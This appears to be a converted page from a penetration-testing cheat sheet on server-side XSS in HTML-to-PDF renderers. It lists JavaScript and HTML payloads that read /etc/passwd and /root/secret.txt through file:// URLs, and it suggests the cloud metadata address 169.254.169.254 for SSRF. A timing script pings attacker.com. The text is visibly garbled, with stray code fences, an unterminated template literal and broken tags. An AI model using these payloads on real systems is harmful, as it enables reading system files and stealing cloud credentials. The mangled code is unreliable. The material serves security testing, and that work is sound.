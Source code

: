 ```
```
```
### Read local file / SSRF

> [!WARNING]
> Change `file:///etc/passwd` for `http://169.254.169.254/latest/user-data` for example to **try to access an external web page (SSRF)**.
>
> If SSRF is allowed, but you **cannot reach** an interesting domain or IP, [[../ssrf-server-side-request-forgery/url-format-bypass.md|check this page for potential bypasses]].

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```
```
```html
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file:///etc/passwd");
    xhzeem.send();
</script>
```
```
```html
[[file:///etc/passwd|file:///etc/passwd]]

<img src="xasdasdasd" onerror="document.write('[[file:///etc/passwd|file:///etc/passwd]]

')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('[[file:///etc/passwd|file:///etc/passwd]]

')'/>&text=&width=500&height=500


```
```
```html

```
```
### Bot delay

```html

<script>
    let time = 500;
    setInterval(()=>{
        let img = document.createElement("img");
        img.src = `https://attacker.com/ping?time=${time}ms;
        time += 500;
    }, 500);
</script>
![[https://attacker.com/delay]]
```